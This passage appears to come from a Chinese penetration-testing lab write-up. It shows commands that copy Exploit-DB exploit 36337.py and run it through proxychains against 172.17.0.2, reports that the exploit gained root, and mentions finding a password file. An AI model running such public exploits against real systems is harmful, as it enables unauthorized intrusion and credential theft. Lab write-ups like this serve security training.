拷贝exp `cp /usr/share/exploitdb/exploits/linux/remote/36337.py .`

![image](https://github.com/FeiNiao/feiniao.github.io/blob/master/_posts/images/a1Cd4PwiQcKv1z1nUw3vsO_OjvuqriHZYhRz_xBygis.png?raw=true)

执行exp

`proxychains4 python2 36337.py 172.17.0.2`

![image](https://github.com/FeiNiao/feiniao.github.io/blob/master/_posts/images/mRS-BsZKZLL7IVVANsFJQWR0gu4H66kJvMOrAm8IQQg.png?raw=true)

执行成功，权限为root

逛一下，就看到了一个password的文件
